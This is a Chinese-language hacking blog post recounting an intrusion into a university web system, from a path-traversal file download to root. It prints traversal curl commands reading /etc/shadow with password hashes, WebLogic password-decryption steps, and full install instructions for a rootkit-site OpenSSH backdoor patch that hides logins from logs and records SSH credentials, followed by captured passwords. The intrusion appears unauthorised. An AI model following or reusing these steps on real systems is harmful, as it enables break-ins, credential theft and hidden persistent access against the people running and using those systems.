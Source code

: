 ```yaml
---
layout: post
title: "从任意文件下载到系统 root 权限"
description: "Hacking"
headline: 
modified: 2015-10-21
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Ricter
comments: true
featured: true
---
```


* 目录
{:toc}

# 从任意文件下载到系统 root 权限


其实蛮没有技术含量。我在两年前遇到这个任意文件下载，却不知道该怎么做，到现在渗透经验足了，拿下了，然后记录一下这一个过程，就这样qwq。

## 0x01

目标站是学校内的一个某系统，存在一个 root 权限的任意文件下载漏洞。年轻的时候我用 AWVS 扫到，很开心。但是我只知道下载 `/etc/passwd` 和 `/etc/shadow`，然后去 cmd5 破解了个密码。

     owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/shadow" | grep "\$1"
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  1450    0  1450    0     0   167k      0 --:--:-- --:--:-- --:--:--  177k
    root:$1$skHsra.H$231VnTWRAH5IZu/ZprShG1:15355:0:99999:7:::
    noc:$1$VfzOW6qf$5bFZHbF9kffKjWNNRRS.t1:15050:0:99999:7:::
    upload:$1$6l1DPvdr$9n35rMlJ.Y0K9T7LTTt4e.:15869:0:99999:7:::
    save:$1$MtVRP4E2$VR2c3KpZzxMXyrtbx5PKC1:15041:0:99999:7:::
    cisco:$1$imx62ClO$JoeFAGinKdzZFMZ1qmam20:15050:0:99999:7:::
    log:$1$G0ukagUJ$WGon1ynxgRMKxY1mY6HUa.:15105:0:99999:7:::
    `

    得到了 log 的密码是 log，save 的密码是 save。但是，可以破解密码都不能登录。

    ` owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/passwd" | grep bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2061    0  2061    0     0   228k      0 --:--:-- --:--:-- --:--:--  251k
    root:x:0:0:root:/root:/bin/bash
    weblogic:x:501:501::/home/weblogic:/bin/bash
    cisco:x:504:504::/home/cisco:/bin/bash
    `

    当时只到这里，啊，不知道怎么做了，GG，该干嘛干嘛。还是太年轻qwq。

    其实还有很多东西可以下载，比如 `/root/.bash_history`，看了一遍，拿到了 Web 目录：`/home/web/jsp/bea/user_projects/domains/xxx`。

    这个站其实是 weblogic 搭建的，比较蛋碎的是，我又不知道 weblogic 的密码，也不知道存放密码的路径。 

    #### 题外话

    其实如果经验足够的话，应该可以知道密钥和密码文件存放的路径。

    密钥路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/security/SerializedSystemIni.dat 

    密码文件路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/servers/APP_NAME/security/boot.properties

    其中大部分信息都在 .bash_history 得到了，不过我还是不知道在哪，真是残念。

    #### 题外话结束

    但是我机智的用 nmap 扫了下端口，发现 FTP 是 vsftpd。vsftpd 这么 6666，没做 chroot 的情况下可以各种看目录，而且用系统帐号就能登陆上。虽然是 `/sbin/nologin/`，但是 vsftp 还是能用的。上去之后翻了下目录，找到了加密后的密码还有加密密码的密钥。

  ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/4.PNG) 

    ## 0x02

根据[http://drops.wooyun.org/tips/349](http://drops.wooyun.org/tips/349)，可以造怎么去破解密码。里面给出的密码破解的 java 脚本依赖 weblogic 的包，我并不想在本地安装 weblogic，于是去万能的 Github 找了下，找到这个程序：[https://github.com/NetSPI/WebLogicPasswordDecryptor](https://github.com/NetSPI/WebLogicPasswordDecryptor)

    用法如下： 

    ` owo &gt; git clone https://github.com/NetSPI/WebLogicPasswordDecryptor
    Cloning into 'WebLogicPasswordDecryptor'...
    remote: Counting objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Unpacking objects: 100% (31/31), done.
    Checking connectivity... done.
     owo &gt; tmp cd WebLogicPasswordDecryptor/
     owo &gt; WebLogicPasswordDecryptor git:(master) javac WebLogicPasswordDecryptor.java
    WebLogicPasswordDecryptor.java:2: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
    import sun.misc.BASE64Decoder;
                   ^
    WebLogicPasswordDecryptor.java:41: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    WebLogicPasswordDecryptor.java:95: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    3 个警告
     pwq &gt; WebLogicPasswordDecryptor git:(master) ? java WebLogicPasswordDecryptor /tmp/SerializedSystemIni.dat "{3DES}0/rNaowFnaz32NHhiOKRmg=="
    DCaW2uXXX
     owo &gt; WebLogicPasswordDecryptor git:(master) ?
    `

    话说如果编译的时候发现缺少什么依赖包，可以去万能的 Google 搞定，我就不提了。 

    既然密码破解出来了，那就去 getshell 吧。

   ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/2.PNG)

   ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/1.PNG)

    ## 0x03

    拿到之后，并不知道密码，心里很纠结。

    因为这里的 cisco 账号也在某 mail.cqupt.edu.cn 中出现了，所以，我感觉还是要上一个比较牛逼的 backdoor。 

   问了我猫总之后，猫总推荐了我一个 openssh 的 backdoor。地址在这：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz) 

    首先 wget 下来，然后看一下 README 和 INSTALL。

    `[root@xxx openssh-5.9p1.patch]# ls
    INSTALL  LICENSE  openssh-5.9p1  openssh-5.9p1.tar.gz  README  sshbd5.9p1.diff  ssh_integrity_checker.sh
    [root@oa openssh-5.9p1.patch]# cat README
    Read LICENSE before redistributing
    Read INSTALL to install backdoor
    ssh_integrity_checker is tool for sysadmin to check possible OpenSSH infection

    FEATURES:
    - Isn't logged in lastlog, wtmp, utmp
    - Your IP isn't logged in /var/log/message and /var/log/secure (RHEL/CentOS)
    - Your IP isn't logged in /var/log/syslog and /var/log/auth.log (Ubuntu/Debian)
    - Record incoming/outgoing user and password for SSH login
    - Instant root access and bypass PermitRootLogin on sshd_config
    - Also support for SSH with pam enabled
    [root@oa openssh-5.9p1.patch]# cat INSTALL

    -- QUICKSTART

    wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
    tar zxvf openssh-5.9p1.tar.gz
    cp sshbd5.5p1.diff openssh-5.9p1/
    cd openssh-5.9p1
    patch &lt; sshbd5.9p1.diff

    modify version.h
    modify secret password and log path on includes.h
    make sure you already install zlib, openssl, kerberos5, and libpam development header file

    ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
    make &amp;&amp; make install &amp;&amp; service ssh restart (debian/ubuntu)
    make &amp;&amp; make install &amp;&amp; service sshd restart (redhat/centos)
    [root@xxx openssh-5.9p1.patch]#
    `

    根据提示要安装一下 zlib-devel、openssl-devel、pam-devel、krb5-lib 之类的包。

    接着下载 openssh-5.9p1 的源代码，patch 掉，然后修改 `includes.h`，在 `includes.h` 的最下面。

   ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/3.PNG) 

    接着 `./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5`，然后 `make &amp;&amp; make install`。 

    重启 sshd 服务后，可以记录账号密码了。ssh 进来的在 `/tmp/ilog`，ssh 出去的在 `/tmp/olog`。

    `[root@xxx tmp]# cat ilog
    user:password --&gt; log:log
    user:password --&gt; log:log
    user:password --&gt; log:log
    [root@oa tmp]# cat olog
    user:password@host --&gt; root:asd@localhost
    [root@xxx tmp]#

接下来就是慢慢的等待了。
